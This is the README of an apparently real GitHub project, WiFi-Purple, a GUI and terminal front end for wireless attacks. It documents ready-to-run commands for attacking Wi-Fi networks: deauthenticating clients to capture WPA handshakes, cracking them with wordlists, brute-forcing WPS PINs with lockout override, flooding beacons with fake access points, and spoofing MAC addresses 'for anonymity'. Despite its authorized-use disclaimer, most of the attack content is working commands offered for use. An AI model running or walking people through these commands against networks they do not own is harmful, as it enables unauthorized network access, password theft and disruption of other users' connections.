

# 🌐 WiFi-Purple - Advanced WiFi Security Testing Tool

<div align="center">


A modern, user-friendly WiFi security testing tool with beautiful GUI and terminal UI.

**⚠️ For Educational and Authorized Testing Only ⚠️**

</div>

---

## ✨ Features

### 🎨 Modern GUI Interface
- **Beautiful Dark Theme** - Eye-friendly purple/dark color scheme
- **Tabbed Interface** - Organized tools, advanced features, and saved data
- **Real-time Console** - Live command output with color-coded messages
- **Smart Dialogs** - Input forms with hints and examples
- **Quick Settings** - Save your interface names for quick access
- **Status Bar** - Always know what's happening
- **Help System** - Built-in help and tooltips

### 🛠️ Powerful Tools
- **Monitor Mode Management** - Easy enable/disable monitor mode
- **Network Scanning** - Scan for WiFi networks with detailed info
- **Handshake Capture** - Capture WPA/WPA2 handshakes
- **Password Cracking** - Crack handshakes with wordlists
- **WPS Attacks** - Exploit WPS vulnerabilities
- **MAC Spoofing** - Change your MAC address
- **Fake AP** - Create fake access points

### 🚀 User-Friendly
- **Beginner Friendly** - Clear instructions and tooltips
- **Smart Defaults** - Remembers your settings
- **File Browser** - Easy file selection
- **Confirmation Dialogs** - Prevents accidental actions
- **Saved Data Manager** - Track your captured files

---

## 📦 Installation

### 1. Clone Repository
```bash
git clone https://github.com/emrekybs/Wifi-Purple.git
cd Wifi-Purple
```

### 2. Install Python Dependencies
```bash
pip install -r requirements.txt
```

### 3. Install Required Tools
```bash
sudo apt update
sudo apt install aircrack-ng bully mdk3 xterm
```

### 4. Verify Installation
```bash
airmon-ng --help
airodump-ng --help
```

---

## 🚀 Usage

### GUI Version (Recommended for Beginners)
```bash
sudo python3 wifi_purple_gui.py
```

**Features:**
- 🎨 Beautiful graphical interface
- 📊 Organized in tabs (Main Tools, Advanced, Saved Data)
- 💡 Built-in help and tooltips
- 🔄 Real-time output console
- ⚙️ Quick settings panel

### Terminal Version (For Advanced Users)
```bash
sudo python3 wifi_purple_improved.py
```

**Features:**
- 🎯 Rich terminal UI with tables
- ⚡ Fast and lightweight
- 📝 Progress indicators
- 🎨 Color-coded output

---

## 📖 Quick Start Guide

### Step 1: Start Monitor Mode
1. Open WiFi-Purple GUI
2. Set your interface name in Quick Settings (e.g., `wlan0`)
3. Click **"🔧 Start Monitor"**
4. Your interface will become `wlan0mon`

### Step 2: Scan Networks
1. Click **"🔍 Scan Networks"**
2. A terminal window will open showing nearby WiFi networks
3. Note down the **BSSID** and **Channel** of your target

### Step 3: Capture Handshake
1. Click **"🎯 Capture Handshake"**
2. Choose to scan first (if needed)
3. Enter target BSSID and Channel
4. Wait for handshake capture (look for "WPA handshake")

### Step 4: Crack Password
1. Click **"🔓 Crack Password"**
2. Select your captured `.cap` file
3. Choose a wordlist (e.g., `/usr/share/wordlists/rockyou.txt`)
4. Wait for the password to be cracked

---

## 🎯 Tool Categories & Commands

### 🔧 Setup Tools

#### Start Monitor Mode
**Description:** Enable monitor mode on your WiFi adapter  
**Command Used:**
```bash
airmon-ng check kill && airmon-ng start {interface}
```
**Example:**
```bash
airmon-ng check kill && airmon-ng start wlan0
```
**What it does:**
- Kills interfering processes
- Enables monitor mode
- Creates monitor interface (e.g., wlan0mon)

---

#### Stop Monitor Mode
**Description:** Disable monitor mode and return to normal mode  
**Command Used:**
```bash
airmon-ng stop {monitor_interface}
```
**Example:**
```bash
airmon-ng stop wlan0mon
```
**What it does:**
- Stops monitor mode
- Returns interface to managed mode

---

#### View Interfaces
**Description:** Display all network interfaces  
**Command Used:**
```bash
ifconfig
```
**What it shows:**
- Interface names (wlan0, eth0, etc.)
- MAC addresses
- IP addresses
- Interface status

---

#### Restart Network
**Description:** Restart NetworkManager to fix connection issues  
**Command Used:**
```bash
service NetworkManager stop && service NetworkManager start && airmon-ng check kill
```
**What it does:**
- Stops NetworkManager
- Starts NetworkManager
- Kills interfering processes

---

### 🔍 Scanning Tools

#### Scan Networks
**Description:** Scan for nearby WiFi networks  
**Command Used:**
```bash
airodump-ng {monitor_interface} -M --band abg
```
**Example:**
```bash
airodump-ng wlan0mon -M --band abg
```
**What it shows:**
- BSSID (MAC address of AP)
- PWR (Signal strength)
- Beacons (Packets sent by AP)
- CH (Channel)
- ENC (Encryption type)
- ESSID (Network name)
- Connected clients

**Parameters:**
- `-M` : Enable manufacturer display
- `--band abg` : Scan 2.4GHz and 5GHz bands

---

#### Capture Handshake
**Description:** Capture WPA/WPA2 handshake for password cracking  
**Commands Used:**
```bash
# Capture handshake
airodump-ng -c {channel} --bssid {bssid} -w {output_path} {interface}

# Deauthenticate clients (force reconnection)
aireplay-ng -0 {packets} -a {bssid} {interface}
```
**Example:**
```bash
# Terminal 1: Capture
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w /tmp/handshake wlan0mon

# Terminal 2: Deauth
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon
```
**What it does:**
- Captures packets on specific channel
- Deauthenticates clients to force handshake
- Saves capture to .cap file

**Parameters:**
- `-c` : Channel number
- `--bssid` : Target AP MAC address
- `-w` : Output file path
- `-0` : Deauth attack
- `{packets}` : Number of deauth packets (0 = continuous)
- `-a` : Target AP MAC

---

### ⚡ Attack Tools

#### Crack Password
**Description:** Crack captured WPA/WPA2 handshake using wordlist  
**Command Used:**
```bash
aircrack-ng {handshake_file} -w {wordlist}
```
**Example:**
```bash
aircrack-ng /tmp/handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```
**What it does:**
- Reads captured handshake
- Tests passwords from wordlist
- Displays password if found

**Parameters:**
- `{handshake_file}` : Path to .cap file
- `-w` : Path to wordlist file

**Popular Wordlists:**
- `/usr/share/wordlists/rockyou.txt` (Kali Linux default)
- Custom wordlists for better success

---

#### WPS Attack
**Description:** Exploit WPS PIN vulnerability on routers  
**Command Used:**
```bash
bully {interface} -b {bssid} -c {channel} -e {essid} --force -F -v 3
```
**Example:**
```bash
bully wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -e "MyNetwork" --force -F -v 3
```
**What it does:**
- Brute forces WPS PIN
- Retrieves WPA password if successful

**Parameters:**
- `-b` : Target BSSID
- `-c` : Channel
- `-e` : ESSID (network name)
- `--force` : Force attack even if locked
- `-F` : Ignore FCS errors
- `-v 3` : Verbose level 3

**Note:** Only works on WPS-enabled routers

---

#### Fake Access Point
**Description:** Create fake access points for deception  
**Command Used:**
```bash
mdk3 {interface} b -f {dictionary} -a -s 1000 -c {channel}
```
**Example:**
```bash
mdk3 wlan0 b -f /wordlist/fakeAP.txt -a -s 1000 -c 6
```
**What it does:**
- Creates multiple fake APs
- Uses names from dictionary file
- Floods area with fake networks

**Parameters:**
- `b` : Beacon flood mode
- `-f` : Dictionary file with AP names
- `-a` : Use all MAC addresses
- `-s 1000` : Speed (packets per second)
- `-c` : Channel

**Dictionary Example:**
```
FreeWiFi
PublicWiFi
GuestNetwork
Free_Internet
```

---

### 🛠️ Utilities

#### Change MAC Address
**Description:** Spoof your MAC address for anonymity  
**Command Used:**
```bash
ifconfig {interface} down && \
ifconfig {interface} hw ether {new_mac} && \
ifconfig {interface} up
```
**Example:**
```bash
ifconfig wlan0 down && \
ifconfig wlan0 hw ether 00:11:22:33:44:55 && \
ifconfig wlan0 up
```
**What it does:**
- Disables interface
- Changes MAC address
- Re-enables interface

**Parameters:**
- `{interface}` : Network interface
- `{new_mac}` : New MAC address (format: XX:XX:XX:XX:XX:XX)

**Verify Change:**
```bash
ifconfig wlan0 | grep ether
```

---

## 📊 Command Cheat Sheet

### Quick Reference
```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Scan networks
sudo airodump-ng wlan0mon

# Capture handshake (replace values)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauth clients (in another terminal)
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack password
sudo aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt

# Stop monitor mode
sudo airmon-ng stop wlan0mon
```

### Common Issues & Solutions

**Issue:** `airmon-ng` not found  
**Solution:** `sudo apt install aircrack-ng`

**Issue:** No handshake captured  
**Solution:** Increase deauth packets or wait for client connection

**Issue:** Interface busy  
**Solution:** `sudo airmon-ng check kill`

**Issue:** Permission denied  
**Solution:** Run with `sudo`

---

---

## 💡 Tips & Tricks

### For Beginners
- ✅ Always start with Monitor Mode
- ✅ Use the built-in Help button (❓)
- ✅ Right-click buttons for more info
- ✅ Check the Saved Data tab for your captures
- ✅ Use large wordlists for better success

### For Advanced Users
- 🔥 Use custom wordlists for faster cracking
- 🔥 Combine multiple attacks for better results
- 🔥 Monitor the output console for detailed info
- 🔥 Save your captures in organized folders

### Common Issues
**Problem:** Monitor mode won't start
- **Solution:** Kill interfering processes: `sudo airmon-ng check kill`

**Problem:** No handshake captured
- **Solution:** Increase deauth packets or wait for client connection

**Problem:** Cracking takes too long
- **Solution:** Use a better wordlist or GPU-accelerated tools

---

## 🎨 Screenshots

### Main Interface
```
┌─────────────────────────────────────────────────────────┐
│              🌐 WiFi-Purple 🌐                          │
│     WiFi Security Testing Tool - By EmreKybs           │
├─────────────────────────────────────────────────────────┤
│  ⚙️ Quick Settings                                      │
│  Normal Interface: [wlan0]  Monitor: [wlan0mon] [Help] │
├──────────────┬──────────────────────────────────────────┤
│  🔧 Setup    │  📟 Output Console                       │
│  🔍 Scanning │  [Real-time command output here...]      │
│  ⚡ Attacks  │                                           │
│  🛠️ Utilities│                                           │
└──────────────┴──────────────────────────────────────────┘
```

---

## 🆚 Improvements Over Original

### GUI Version (NEW!)
- ✨ **Modern Interface** - Beautiful dark-themed GUI with purple accents
- 📑 **Tabbed Layout** - Organized tools, advanced features, saved data
- 🎯 **Smart Dialogs** - Input forms with hints and examples
- 💾 **Saved Data Manager** - Track and manage captured files
- ⚙️ **Quick Settings** - Save interface names for reuse
- 🔄 **Real-time Console** - Live output with color coding
- 📂 **File Browsers** - Easy file selection
- 🧵 **Threaded Operations** - Non-blocking execution
- 📊 **Status Bar** - Always know what's happening
- ❓ **Help System** - Built-in help and tooltips
- ⌨️ **Keyboard Shortcuts** - Enter/Escape in dialogs
- 🎨 **Categorized Tools** - Setup, Scanning, Attacks, Utilities
- 💡 **Welcome Guide** - Instructions on startup
- 🗑️ **Clear Console** - Easy output management

### Terminal Version
- 🎯 **Rich UI** - Beautiful tables and panels
- 📊 **Progress Indicators** - Visual feedback
- 🎨 **Color-coded Output** - Easy to read
- 🔄 **Error Handling** - Graceful error management
- 📝 **Input Validation** - Better user input handling
- 🏗️ **Object-Oriented** - Clean code structure

---

## 📋 Requirements

### System Requirements
- **OS:** Linux (Kali Linux, Ubuntu, Debian, etc.)
- **Python:** 3.6 or higher
- **Privileges:** Root/sudo access
- **Display:** X11 (for GUI version)

### Software Dependencies
```bash
# Python packages
rich>=13.0.0
colorama>=0.4.6

# System tools
aircrack-ng    # WiFi security testing suite
bully          # WPS attack tool
mdk3           # Wireless attack tool
xterm          # Terminal emulator (for GUI)
```

### Optional Tools
```bash
gnome-terminal  # Alternative terminal (if xterm not available)
```

---

## ⚠️ Legal Disclaimer

**IMPORTANT - READ CAREFULLY:**

This tool is provided for **EDUCATIONAL PURPOSES ONLY**. 

### Legal Use Cases:
✅ Testing your own WiFi network security
✅ Authorized penetration testing with written permission
✅ Educational research in controlled environments
✅ Security auditing with proper authorization

### Illegal Use Cases:
❌ Accessing networks without permission
❌ Unauthorized penetration testing
❌ Stealing WiFi passwords
❌ Any malicious activities

### Your Responsibility:
- You are solely responsible for your actions
- Unauthorized access to networks is illegal in most countries
- Violators may face criminal prosecution
- Always obtain written permission before testing

**By using this tool, you agree to use it responsibly and legally.**

---

## 🤝 Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

### How to Contribute:
1. Fork the repository
2. Create your feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

---

## 📞 Support

- **GitHub Issues:** [Report bugs or request features](https://github.com/emrekybs/Wifi-Purple/issues)
- **GitHub:** [@emrekybs](https://github.com/emrekybs)

---

## 📜 License

This project is provided for educational purposes only. Use responsibly and legally.

---

## 🙏 Credits

**Original Author:** EmreKybs
**Improved Version:** Enhanced with modern GUI and features

### Tools Used:
- **aircrack-ng** - WiFi security testing
- **bully** - WPS attack tool
- **mdk3** - Wireless attack tool
- **Python tkinter** - GUI framework
- **Rich** - Terminal UI library

---

## 📚 Additional Resources

### Learning Resources:
- [Aircrack-ng Documentation](https://www.aircrack-ng.org/)
- [WiFi Security Basics](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access)
- [Ethical Hacking Guide](https://www.offensive-security.com/)

### Recommended Wordlists:
- `/usr/share/wordlists/rockyou.txt` (Default on Kali Linux)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [CrackStation](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

---

<div align="center">

**Made with 💜 by EmreKybs**

⭐ Star this repo if you find it useful!

</div>
